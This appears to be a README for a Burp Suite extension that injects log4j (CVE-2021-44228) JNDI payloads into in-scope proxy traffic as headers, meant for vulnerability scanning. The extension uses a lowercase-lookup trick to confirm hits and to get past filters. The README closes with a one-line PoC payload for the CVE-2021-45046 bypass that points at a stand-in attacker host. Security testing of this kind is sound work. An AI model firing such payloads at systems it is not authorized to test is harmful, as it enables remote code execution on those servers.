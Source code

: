 This is a simple fork of James Kettle's excellent [Collaborator Everywhere](https://github.com/PortSwigger/collaborator-everywhere/), with the injection parameters changed to payloads for the critical log4j CVE-2021-44228 vulnerability. This extension only works on in-scope traffic, and works by injecting headers into your proxy traffic with log4j exploits. 

To avoid false positives with pingbacks such as with DNS requests made from host regex matching, and to potentially bypass filters, the `${lower:x}` pattern is used in the DNS request to establish confidence that there is some kind of of jdni lookup happening - if this matches, it will set the confidence to certain. 

To use it, simply install it and browse the target website. Findings will be presented in the 'Issues' tab. You can easily customise injected payloads by editing /resources/injections

# CVE-2021-45046
Added PoC bypass for allowedLdapHost and allowedClassess checks in Log4J 2.15.0:
- ${jndi:ldap://127.0.0.1#evilhost.com:443/a}
